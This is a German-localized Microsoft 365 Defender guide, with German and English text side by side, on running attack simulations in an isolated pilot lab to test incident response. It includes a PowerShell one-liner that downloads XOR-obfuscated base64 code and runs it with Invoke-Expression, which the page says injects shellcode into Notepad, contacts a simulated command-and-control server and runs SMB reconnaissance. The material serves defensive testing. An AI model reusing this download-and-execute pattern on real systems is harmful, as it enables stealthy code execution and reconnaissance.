


# <a name="run-an-attack-simulation-in-a-microsoft-365-defender-pilot-environment"></a><span data-ttu-id="bfc44-103">Ausführen einer Angriffssimulation in einer Microsoft 365 Defender Pilotumgebung</span><span class="sxs-lookup"><span data-stu-id="bfc44-103">Run an attack simulation in a Microsoft 365 Defender pilot environment</span></span>


<span data-ttu-id="bfc44-104">Dieser Artikel ist [Schritt 1 von 2,](eval-defender-investigate-respond.md) um eine Untersuchung und Reaktion auf einen Vorfall in Microsoft 365 Defender mithilfe einer Pilotumgebung durchzuführen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-104">This article is [Step 1 of 2](eval-defender-investigate-respond.md) in the process of performing an investigation and response of an incident in Microsoft 365 Defender using a pilot environment.</span></span> <span data-ttu-id="bfc44-105">Weitere Informationen zu diesem Prozess finden Sie im [Übersichtsartikel.](eval-defender-investigate-respond.md)</span><span class="sxs-lookup"><span data-stu-id="bfc44-105">For more information about this process, see the [overview](eval-defender-investigate-respond.md) article.</span></span>

<span data-ttu-id="bfc44-106">Nach der Vorbereitung Ihrer [Pilotumgebung](eval-defender-investigate-respond.md)ist es an der Zeit, die Reaktion auf Microsoft 365 Defender sowie die automatisierten Untersuchungs- und Behebungsfunktionen zu testen, indem Sie einen Vorfall mit einem simulierten Angriff erstellen und das Microsoft 365 Defender-Portal verwenden, um zu untersuchen und zu reagieren.</span><span class="sxs-lookup"><span data-stu-id="bfc44-106">After preparing your [pilot environment](eval-defender-investigate-respond.md), it's time to test Microsoft 365 Defender's incident response and automated investigation and remediation capabilities by creating an incident with a simulated attack and using the Microsoft 365 Defender portal to investigate and respond.</span></span>

<span data-ttu-id="bfc44-107">Ein Vorfall in Microsoft 365 Defender ist eine Sammlung korrelierter Warnungen und zugehöriger Daten, die die Geschichte eines Angriffs bilden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-107">An incident in Microsoft 365 Defender is a collection of correlated alerts and associated data that make up the story of an attack.</span></span>

<span data-ttu-id="bfc44-108">Microsoft 365 Dienste und Apps erstellen Warnungen, wenn sie ein verdächtiges oder bösartiges Ereignis oder eine schädliche Aktivität erkennen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-108">Microsoft 365 services and apps create alerts when they detect a suspicious or malicious event or activity.</span></span> <span data-ttu-id="bfc44-109">Einzelne Warnungen liefern wertvolle Hinweise zu einem abgeschlossenen oder laufenden Angriff.</span><span class="sxs-lookup"><span data-stu-id="bfc44-109">Individual alerts provide valuable clues about a completed or ongoing attack.</span></span> <span data-ttu-id="bfc44-110">Bei Angriffen werden jedoch in der Regel verschiedene Techniken gegen verschiedene Entitätstypen verwendet, z. B. Geräte, Benutzer und Postfächer.</span><span class="sxs-lookup"><span data-stu-id="bfc44-110">However, attacks typically employ various techniques against different types of entities, such as devices, users, and mailboxes.</span></span> <span data-ttu-id="bfc44-111">Das Ergebnis sind mehrere Warnungen für mehrere Entitäten in Ihrem Mandanten.</span><span class="sxs-lookup"><span data-stu-id="bfc44-111">The result is multiple alerts for multiple entities in your tenant.</span></span>

>[!Note]
><span data-ttu-id="bfc44-112">Wenn Sie mit der Sicherheitsanalyse und der Reaktion auf Vorfälle völlig neu sind, lesen Sie die [exemplarische Vorgehensweise "Auf Ihren ersten Vorfall reagieren",](first-incident-overview.md) um sich einen geführten Überblick über einen typischen Prozess der Analyse, Wartung und Überprüfung nach dem Vorfall zu verschaffen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-112">If you are brand new to security analysis and incident response, see the [Respond to your first incident walkthrough](first-incident-overview.md) to get a guided tour of a typical process of analysis, remediation, and post-incident review.</span></span>
>

## <a name="simulate-attacks-with-the-microsoft-365-defender-portal"></a><span data-ttu-id="bfc44-113">Simulieren von Angriffen mit dem Microsoft 365 Defender Portal</span><span class="sxs-lookup"><span data-stu-id="bfc44-113">Simulate attacks with the Microsoft 365 Defender portal</span></span>

<span data-ttu-id="bfc44-114">Das Microsoft 365 Defender-Portal verfügt über integrierte Funktionen, um simulierte Angriffe auf Ihre Pilotumgebung zu erstellen:</span><span class="sxs-lookup"><span data-stu-id="bfc44-114">The Microsoft 365 Defender portal has built-in capabilities to create simulated attacks on your pilot environment:</span></span>

- <span data-ttu-id="bfc44-115">Angriffssimulationstraining für Microsoft 365 Defender für Office 365 bei [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator) .</span><span class="sxs-lookup"><span data-stu-id="bfc44-115">Attack simulation training for Microsoft 365 Defender for Office 365 at [https://security.microsoft.com/attacksimulator](https://security.microsoft.com/attacksimulator).</span></span>
  
  <span data-ttu-id="bfc44-116">Wählen Sie im portal Microsoft 365 Defender **E-Mail-& Zusammenarbeit > Angriffssimulationstraining** aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-116">In the Microsoft 365 Defender portal, select **Email & collaboration > Attack simulation training**.</span></span>

- <span data-ttu-id="bfc44-117">Angriffslernprogramme & Simulationen für Microsoft 365 Defender für Endpunkte unter [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations) .</span><span class="sxs-lookup"><span data-stu-id="bfc44-117">Attack tutorials & simulations for Microsoft 365 Defender for Endpoints at [https://security.microsoft.com/tutorials/simulations](https://security.microsoft.com/tutorials/simulations).</span></span>

  <span data-ttu-id="bfc44-118">Wählen Sie im Microsoft 365 Defender Portal **Endpunkte > Lernprogramme & Simulationen** aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-118">In the Microsoft 365 Defender portal, select **Endpoints > Tutorials & simulations**.</span></span>

### <a name="defender-for-office-365-attack-simulation-training"></a><span data-ttu-id="bfc44-119">Angriffssimulationstraining für Defender für Office 365</span><span class="sxs-lookup"><span data-stu-id="bfc44-119">Defender for Office 365 Attack simulation training</span></span>

<span data-ttu-id="bfc44-120">Defender für Office 365 mit Microsoft 365 E5 oder Microsoft Defender für Office 365 Plan 2 umfasst Angriffssimulationsschulungen für Phishingangriffe.</span><span class="sxs-lookup"><span data-stu-id="bfc44-120">Defender for Office 365 with Microsoft 365 E5 or Microsoft Defender for Office 365 Plan 2 includes attack simulation training for phishing attacks.</span></span> <span data-ttu-id="bfc44-121">Die grundlegenden Schritte sind:</span><span class="sxs-lookup"><span data-stu-id="bfc44-121">The basic steps are:</span></span>

1. <span data-ttu-id="bfc44-122">Erstellen einer Simulation</span><span class="sxs-lookup"><span data-stu-id="bfc44-122">Create a simulation</span></span>

   <span data-ttu-id="bfc44-123">Schrittweise Anleitungen zum Erstellen und Senden einer neuen Simulation finden Sie unter [Simulieren eines Phishingangriffs.](/microsoft-365/security/office-365-security/attack-simulation-training)</span><span class="sxs-lookup"><span data-stu-id="bfc44-123">For step by step instructions on how to create and send a new simulation, see [Simulate a phishing attack](/microsoft-365/security/office-365-security/attack-simulation-training).</span></span>

2. <span data-ttu-id="bfc44-124">Erstellen einer Nutzlast</span><span class="sxs-lookup"><span data-stu-id="bfc44-124">Create a payload</span></span>

   <span data-ttu-id="bfc44-125">Schrittweise Anleitungen zum Erstellen einer Nutzlast für die Verwendung innerhalb einer Simulation finden Sie unter [Erstellen einer benutzerdefinierten Nutzlast für Angriffssimulationsschulungen.](/microsoft-365/security/office-365-security/attack-simulation-training-payloads)</span><span class="sxs-lookup"><span data-stu-id="bfc44-125">For step by step instructions on how to create a payload for use within a simulation, see [Create a custom payload for Attack simulation training](/microsoft-365/security/office-365-security/attack-simulation-training-payloads).</span></span>

3. <span data-ttu-id="bfc44-126">Gewinnen von Einblicken</span><span class="sxs-lookup"><span data-stu-id="bfc44-126">Gaining insights</span></span>

   <span data-ttu-id="bfc44-127">Schritt-für-Schritt-Anleitungen zum Gewinnen von Erkenntnissen mit der Berichterstellung finden Sie unter ["Gewinnen von Einblicken durch Angriffssimulationsschulungen".](/microsoft-365/security/office-365-security/attack-simulation-training-insights)</span><span class="sxs-lookup"><span data-stu-id="bfc44-127">For step by step instructions on how to gain insights with reporting, see [Gain insights through Attack simulation training](/microsoft-365/security/office-365-security/attack-simulation-training-insights).</span></span>

<span data-ttu-id="bfc44-128">Weitere Informationen finden Sie unter [Simulationen.](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations)</span><span class="sxs-lookup"><span data-stu-id="bfc44-128">For more information, see [Simulations](/microsoft-365/security/office-365-security/attack-simulation-training-get-started#simulations).</span></span>

### <a name="defender-for-endpoint-attack-tutorials--simulations"></a><span data-ttu-id="bfc44-129">Defender für Endpunkt-Angriffslernprogramme & Simulationen</span><span class="sxs-lookup"><span data-stu-id="bfc44-129">Defender for Endpoint attack tutorials & simulations</span></span>

<span data-ttu-id="bfc44-130">Hier sind die Defender für Endpunkt-Simulationen von Microsoft:</span><span class="sxs-lookup"><span data-stu-id="bfc44-130">Here are the Defender for Endpoint simulations from Microsoft:</span></span>

- <span data-ttu-id="bfc44-131">Dokument legt Hintertür ab</span><span class="sxs-lookup"><span data-stu-id="bfc44-131">Document drops backdoor</span></span>
- <span data-ttu-id="bfc44-132">Automatisierte Untersuchung (Hintertür)</span><span class="sxs-lookup"><span data-stu-id="bfc44-132">Automated investigation (backdoor)</span></span>

<span data-ttu-id="bfc44-133">Es gibt zusätzliche Simulationen von Attack GIF und SafeBreach.</span><span class="sxs-lookup"><span data-stu-id="bfc44-133">There are additional simulations from Attack IQ and SafeBreach.</span></span> <span data-ttu-id="bfc44-134">Es gibt auch eine Reihe von Lernprogrammen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-134">There are also a set of tutorials.</span></span>

<span data-ttu-id="bfc44-135">Für jede Simulation oder jedes Lernprogramm:</span><span class="sxs-lookup"><span data-stu-id="bfc44-135">For each simulation or tutorial:</span></span>

1. <span data-ttu-id="bfc44-136">Laden Sie das entsprechende Walk-Through-Dokument herunter, das Mit Ihrer ausgewählten Simulation oder Ihrem ausgewählten Szenario bereitgestellt wird, und lesen Sie es.</span><span class="sxs-lookup"><span data-stu-id="bfc44-136">Download and read the corresponding walk through document provided with your selected simulation or scenario.</span></span>

2. <span data-ttu-id="bfc44-137">Laden Sie die Simulationsdatei herunter.</span><span class="sxs-lookup"><span data-stu-id="bfc44-137">Download the simulation file.</span></span> <span data-ttu-id="bfc44-138">Sie können die Datei oder das Skript auf dem Testgerät herunterladen, dies ist jedoch nicht obligatorisch.</span><span class="sxs-lookup"><span data-stu-id="bfc44-138">You can choose to download the file or script on the test device but it's not mandatory.</span></span>

3. <span data-ttu-id="bfc44-139">Führen Sie die Simulationsdatei oder das Skript auf dem Testgerät aus, wie im Exemplarischen Dokument beschrieben.</span><span class="sxs-lookup"><span data-stu-id="bfc44-139">Run the simulation file or script on the test device as instructed in the walk through document.</span></span>

 <span data-ttu-id="bfc44-140">Weitere Informationen finden Sie unter [Microsoft Defender für Endpunkt durch simulierten Angriff.](/microsoft-365/security/defender-endpoint/attack-simulations)</span><span class="sxs-lookup"><span data-stu-id="bfc44-140">For more information, see [Experience Microsoft Defender for Endpoint through simulated attack](/microsoft-365/security/defender-endpoint/attack-simulations).</span></span>

## <a name="simulate-an-attack-with-an-isolated-domain-controller-and-client-device-optional"></a><span data-ttu-id="bfc44-141">Simulieren eines Angriffs mit einem isolierten Domänencontroller und Clientgerät (optional)</span><span class="sxs-lookup"><span data-stu-id="bfc44-141">Simulate an attack with an isolated domain controller and client device (optional)</span></span>

<span data-ttu-id="bfc44-142">In dieser optionalen Vorfallreaktionsübung simulieren Sie einen Angriff auf einen isolierten Active Directory Domain Services (AD DS)-Domänencontroller und Windows 10 Gerät mithilfe eines PowerShell-Skripts und untersuchen, beheben und beheben den Vorfall.</span><span class="sxs-lookup"><span data-stu-id="bfc44-142">In this optional incident response exercise, you'll simulate an attack on an isolated Active Directory Domain Services (AD DS) domain controller and Windows 10 device using a PowerShell script and then investigate, remediate, and resolve the incident.</span></span>

<span data-ttu-id="bfc44-143">Zunächst müssen Sie Ihrer Pilotumgebung Endpunkte hinzufügen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-143">First, you need to add endpoints to your pilot environment.</span></span>

### <a name="add-pilot-environment-endpoints"></a><span data-ttu-id="bfc44-144">Hinzufügen von Pilotumgebungsendpunkten</span><span class="sxs-lookup"><span data-stu-id="bfc44-144">Add pilot environment endpoints</span></span>

<span data-ttu-id="bfc44-145">Zunächst müssen Sie ihrer Pilotumgebung einen isolierten AD DS-Domänencontroller und ein Windows 10 Gerät hinzufügen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-145">First, you need to add an isolated AD DS domain controller and a Windows 10 device to your pilot environment.</span></span>

1. <span data-ttu-id="bfc44-146">Stellen Sie sicher, dass ihr Pilotumgebungsmandant [Microsoft 365 Defender aktiviert](m365d-enable.md#confirm-that-the-service-is-on)hat.</span><span class="sxs-lookup"><span data-stu-id="bfc44-146">Verify your pilot environment tenant has [enabled Microsoft 365 Defender](m365d-enable.md#confirm-that-the-service-is-on).</span></span>

2. <span data-ttu-id="bfc44-147">Stellen Sie sicher, dass Ihr Domänencontroller:</span><span class="sxs-lookup"><span data-stu-id="bfc44-147">Verify that your domain controller:</span></span>

   - <span data-ttu-id="bfc44-148">Führt Windows Server 2008 R2 oder höher aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-148">Runs Windows Server 2008 R2 or a later version.</span></span>
   - <span data-ttu-id="bfc44-149">Berichtet an [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) und hat die [Remoteverwaltung](/windows-server/administration/server-manager/configure-remote-management-in-server-manager)aktiviert.</span><span class="sxs-lookup"><span data-stu-id="bfc44-149">Reports to [Microsoft Defender for Identity](/azure/security-center/security-center-wdatp) and has enabled [remote management](/windows-server/administration/server-manager/configure-remote-management-in-server-manager).</span></span>
   - <span data-ttu-id="bfc44-150">Aktiviert [Microsoft Defender for Identity und Microsoft Cloud App Security Integration.](/cloud-app-security/mdi-integration)</span><span class="sxs-lookup"><span data-stu-id="bfc44-150">Has [Microsoft Defender for Identity and Microsoft Cloud App Security integration](/cloud-app-security/mdi-integration) enabled.</span></span>
   - <span data-ttu-id="bfc44-151">Hat einen Testbenutzer in der Testdomäne erstellt.</span><span class="sxs-lookup"><span data-stu-id="bfc44-151">Has a test user is created in the test domain.</span></span> <span data-ttu-id="bfc44-152">Berechtigungen auf Administratorebene sind nicht erforderlich.</span><span class="sxs-lookup"><span data-stu-id="bfc44-152">Administrator-level permissions are not needed.</span></span>

3. <span data-ttu-id="bfc44-153">Stellen Sie sicher, dass Ihr Testgerät:</span><span class="sxs-lookup"><span data-stu-id="bfc44-153">Verify that your test device:</span></span>

   - <span data-ttu-id="bfc44-154">Führt Windows 10 Version 1903 oder höher aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-154">Runs Windows 10 version 1903 or a later version.</span></span>
   - <span data-ttu-id="bfc44-155">Ist der AD DS-Domänencontrollerdomäne beigetreten.</span><span class="sxs-lookup"><span data-stu-id="bfc44-155">Is joined to the AD DS domain controller domain.</span></span>
   - <span data-ttu-id="bfc44-156">Hat [Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) aktiviert.</span><span class="sxs-lookup"><span data-stu-id="bfc44-156">Has [Windows Defender Antivirus](/windows/security/threat-protection/windows-defender-antivirus/configure-windows-defender-antivirus-features) enabled.</span></span> <span data-ttu-id="bfc44-157">Wenn Sie Probleme beim Aktivieren von Windows Defender Antivirus haben, lesen Sie dieses [Problembehandlungsthema.](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy)</span><span class="sxs-lookup"><span data-stu-id="bfc44-157">If you are having trouble enabling Windows Defender Antivirus, see this [troubleshooting topic](/windows/security/threat-protection/microsoft-defender-atp/troubleshoot-onboarding#ensure-that-windows-defender-antivirus-is-not-disabled-by-a-policy).</span></span>
   - <span data-ttu-id="bfc44-158">Ist [in Microsoft Defender für Endpunkt integriert.](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints)</span><span class="sxs-lookup"><span data-stu-id="bfc44-158">Is [onboarded to Microsoft Defender for Endpoint](/windows/security/threat-protection/microsoft-defender-atp/configure-endpoints).</span></span>

<span data-ttu-id="bfc44-159">Wenn Sie Mandanten- und Gerätegruppen verwenden, erstellen Sie eine dedizierte Gerätegruppe für das Testgerät, und pushen Sie es auf die oberste Ebene.</span><span class="sxs-lookup"><span data-stu-id="bfc44-159">If you use tenant and device groups, create a dedicated device group for the test device and push it to top level.</span></span>

<span data-ttu-id="bfc44-160">Eine Alternative besteht darin, ihren AD DS-Domänencontroller zu hosten und das Gerät als virtuelle Computer in Microsoft Azure Infrastrukturdiensten zu testen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-160">One alternative is to host your AD DS domain controller and test device as virtual machines in Microsoft Azure infrastructure services.</span></span> <span data-ttu-id="bfc44-161">Sie können die Anweisungen in [Phase 1 des simulierten Enterprise-Testumgebungsanleitung](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet)verwenden, aber die Erstellung des virtuellen APP1-Computers überspringen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-161">You can use the instructions in [Phase 1 of the simulated enterprise Test Lab Guide](/microsoft-365/enterprise/simulated-ent-base-configuration-microsoft-365-enterprise#phase-1-create-a-simulated-intranet), but skip the creation of the APP1 virtual machine.</span></span>

<span data-ttu-id="bfc44-162">Nachfolgend sehen Sie das Ergebnis.</span><span class="sxs-lookup"><span data-stu-id="bfc44-162">Here is the result.</span></span>


<span data-ttu-id="bfc44-164">Sie simulieren einen komplexen Angriff, der erweiterte Techniken nutzt, um sich vor der Erkennung auszublenden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-164">You'll simulate a sophisticated attack that leverages advanced techniques to hide from detection.</span></span> <span data-ttu-id="bfc44-165">Der Angriff zählt geöffnete Server Message Block (SMB)-Sitzungen auf Domänencontrollern auf und ruft die letzten IP-Adressen der Geräte der Benutzer ab.</span><span class="sxs-lookup"><span data-stu-id="bfc44-165">The attack enumerates opened Server Message Block (SMB) sessions on domain controllers and retrieves recent IP addresses of users' devices.</span></span> <span data-ttu-id="bfc44-166">Diese Kategorie von Angriffen umfasst in der Regel keine Dateien, die auf dem Gerät des Opfers abgelegt wurden und ausschließlich im Arbeitsspeicher auftreten.</span><span class="sxs-lookup"><span data-stu-id="bfc44-166">This category of attacks usually doesn't include files dropped on the victim's device and they occur solely in memory.</span></span> <span data-ttu-id="bfc44-167">Sie "leben vom Land", indem sie vorhandene System- und Verwaltungstools verwenden und ihren Code in Systemprozesse einfügen, um ihre Ausführung auszublenden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-167">They "live off the land" by using existing system and administrative tools and inject their code into system processes to hide their execution.</span></span> <span data-ttu-id="bfc44-168">Ein solches Verhalten ermöglicht es ihnen, die Erkennung zu umgehen und auf dem Gerät zu speichern.</span><span class="sxs-lookup"><span data-stu-id="bfc44-168">Such behavior allows them to evade detection and persist on the device.</span></span>

<span data-ttu-id="bfc44-169">In dieser Simulation beginnt unser Beispielszenario mit einem PowerShell-Skript.</span><span class="sxs-lookup"><span data-stu-id="bfc44-169">In this simulation, our sample scenario starts with a PowerShell script.</span></span> <span data-ttu-id="bfc44-170">In der realen Welt wird ein Benutzer möglicherweise dazu betrogen, ein Skript auszuführen, oder das Skript kann von einer Remoteverbindung mit einem anderen Computer von einem zuvor infizierten Gerät ausgeführt werden, was darauf hinweist, dass der Angreifer versucht, sich seitlich im Netzwerk zu bewegen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-170">In the real world, a user might be tricked into running a script or the script might run from a remote connection to another computer from a previously infected device, which indicates that the attacker is attempting to move laterally in the network.</span></span> <span data-ttu-id="bfc44-171">Die Erkennung dieser Skripts kann schwierig sein, da Administratoren Skripts häufig auch remote ausführen, um verschiedene Administrative Aktivitäten auszuführen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-171">Detection of these scripts can be difficult because administrators also often run scripts remotely to carry out various administrative activities.</span></span>


<span data-ttu-id="bfc44-173">Während der Simulation fügt der Angriff Shellcode in einen scheinbar unerschwungenen Prozess ein.</span><span class="sxs-lookup"><span data-stu-id="bfc44-173">During the simulation, the attack injects shellcode into a seemingly innocent process.</span></span> <span data-ttu-id="bfc44-174">Das Szenario erfordert die Verwendung von notepad.exe.</span><span class="sxs-lookup"><span data-stu-id="bfc44-174">The scenario requires the use of notepad.exe.</span></span> <span data-ttu-id="bfc44-175">Wir haben diesen Prozess für die Simulation ausgewählt, aber Angreifer würden wahrscheinlich eher auf einen lange ausgeführten Systemprozess abzielen, z. B. svchost.exe.</span><span class="sxs-lookup"><span data-stu-id="bfc44-175">We chose this process for the simulation, but attackers would more likely target a long-running system process, such as svchost.exe.</span></span> <span data-ttu-id="bfc44-176">Die Shellcode kontaktiert dann den Befehls- und Steuerungsserver (C2) des Angreifers, um Anweisungen zum Weiteren zu erhalten.</span><span class="sxs-lookup"><span data-stu-id="bfc44-176">The shellcode then goes on to contact the attacker's command-and-control (C2) server to receive instructions on how to proceed.</span></span> <span data-ttu-id="bfc44-177">Das Skript versucht, Abstimmungsabfragen für den Domänencontroller (DC) auszuführen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-177">The script attempts executing reconnaissance queries against the domain controller (DC).</span></span> <span data-ttu-id="bfc44-178">Mit der Reconnaissance kann ein Angreifer Informationen über die letzten Benutzeranmeldeinformationen abrufen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-178">Reconnaissance allows an attacker to get information about recent user login information.</span></span> <span data-ttu-id="bfc44-179">Sobald Angreifer über diese Informationen verfügen, können sie sich seitlich im Netzwerk bewegen, um zu einem bestimmten vertraulichen Konto zu gelangen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-179">Once attackers have this information, they can move laterally in the network to get to a specific sensitive account</span></span>

> [!IMPORTANT]
> <span data-ttu-id="bfc44-180">Um optimale Ergebnisse zu erzielen, befolgen Sie die Anweisungen zur Angriffssimulation so genau wie möglich.</span><span class="sxs-lookup"><span data-stu-id="bfc44-180">For optimum results, follow the attack simulation instructions as closely as possible.</span></span>

### <a name="run-the-isolated-ad-ds-domain-controller-attack-simulation"></a><span data-ttu-id="bfc44-181">Ausführen der isolierten AD DS-Domänencontroller-Angriffssimulation</span><span class="sxs-lookup"><span data-stu-id="bfc44-181">Run the isolated AD DS domain controller attack simulation</span></span>

<span data-ttu-id="bfc44-182">So führen Sie die Simulation des Angriffsszenarios aus:</span><span class="sxs-lookup"><span data-stu-id="bfc44-182">To run the attack scenario simulation:</span></span>

1. <span data-ttu-id="bfc44-183">Stellen Sie sicher, dass Ihre Pilotumgebung den isolierten AD DS-Domänencontroller und Windows 10 Gerät enthält.</span><span class="sxs-lookup"><span data-stu-id="bfc44-183">Ensure that your pilot environment includes the isolated AD DS domain controller and Windows 10 device.</span></span>

2. <span data-ttu-id="bfc44-184">Melden Sie sich mit dem Testbenutzerkonto beim Testgerät an.</span><span class="sxs-lookup"><span data-stu-id="bfc44-184">Sign in to the test device with the test user account.</span></span>

3. <span data-ttu-id="bfc44-185">Öffnen Sie ein Windows PowerShell Fenster auf dem Testgerät.</span><span class="sxs-lookup"><span data-stu-id="bfc44-185">Open a Windows PowerShell window on the test device.</span></span>

4. <span data-ttu-id="bfc44-186">Kopieren Sie das folgende Simulationsskript:</span><span class="sxs-lookup"><span data-stu-id="bfc44-186">Copy the following simulation script:</span></span>

   ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="bfc44-187">Wenn Sie diesen Artikel in einem Webbrowser öffnen, können Probleme beim Kopieren des Vollständigtexts auftreten, ohne bestimmte Zeichen zu verlieren oder zusätzliche Zeilenumbrüche zu verursachen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-187">If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="bfc44-188">Wenn dies der Fall ist, laden Sie dieses Dokument herunter, und öffnen Sie es in Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="bfc44-188">If this is the case, download this document and open it on Adobe Reader.</span></span>

5. <span data-ttu-id="bfc44-189">Fügen Sie das kopierte Skript in das PowerShell-Fenster ein, und führen Sie es aus.</span><span class="sxs-lookup"><span data-stu-id="bfc44-189">Paste and run the copied script in the PowerShell window.</span></span>

> [!NOTE]
> <span data-ttu-id="bfc44-190">Wenn Sie PowerShell mithilfe des Remotedesktopprotokolls (RDP) ausführen, verwenden Sie den Befehl "Text der Zwischenablage eingeben" im RDP-Client, da die **STRG-V-Hotkey-** oder Right-Click-Paste-Methode möglicherweise nicht funktioniert.</span><span class="sxs-lookup"><span data-stu-id="bfc44-190">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="bfc44-191">Aktuelle Versionen von PowerShell akzeptieren diese Methode manchmal auch nicht. Möglicherweise müssen Sie sie zuerst in Editor im Arbeitsspeicher kopieren, auf dem virtuellen Computer kopieren und dann in PowerShell einfügen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-191">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="bfc44-192">Einige Sekunden später wird die Editor App geöffnet.</span><span class="sxs-lookup"><span data-stu-id="bfc44-192">A few seconds later, the Notepad app will open.</span></span> <span data-ttu-id="bfc44-193">Ein simulierter Angriffscode wird in Editor eingefügt.</span><span class="sxs-lookup"><span data-stu-id="bfc44-193">A simulated attack code will be injected into Notepad.</span></span> <span data-ttu-id="bfc44-194">Lassen Sie die automatisch generierte Editor Instanz geöffnet, um das vollständige Szenario zu erleben.</span><span class="sxs-lookup"><span data-stu-id="bfc44-194">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="bfc44-195">Der simulierte Angriffscode versucht, mit einer externen IP-Adresse zu kommunizieren (den C2-Server zu simulieren) und dann über SMB eine Reconnaissance für den Domänencontroller zu versuchen.</span><span class="sxs-lookup"><span data-stu-id="bfc44-195">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="bfc44-196">Diese Meldung wird auf der PowerShell-Konsole angezeigt, wenn dieses Skript abgeschlossen ist:</span><span class="sxs-lookup"><span data-stu-id="bfc44-196">You'll see this message displayed on the PowerShell console when this script completes:</span></span>

```console
ran NetSessionEnum against [DC Name] with return code result 0
```

<span data-ttu-id="bfc44-197">Um das Feature "Automatisierter Vorfall und Reaktion" in Aktion zu sehen, lassen Sie den notepad.exe Prozess geöffnet.</span><span class="sxs-lookup"><span data-stu-id="bfc44-197">To see the Automated Incident and Response feature in action, keep the notepad.exe process open.</span></span> <span data-ttu-id="bfc44-198">Sie sehen, dass automatisierte Vorfälle und Reaktionen den Editor-Prozess beenden.</span><span class="sxs-lookup"><span data-stu-id="bfc44-198">You'll see Automated Incident and Response stop the Notepad process.</span></span>

### <a name="investigate-the-incident-for-the-simulated-attack"></a><span data-ttu-id="bfc44-199">Untersuchen des Vorfalls auf den simulierten Angriff</span><span class="sxs-lookup"><span data-stu-id="bfc44-199">Investigate the incident for the simulated attack</span></span>

> [!NOTE]
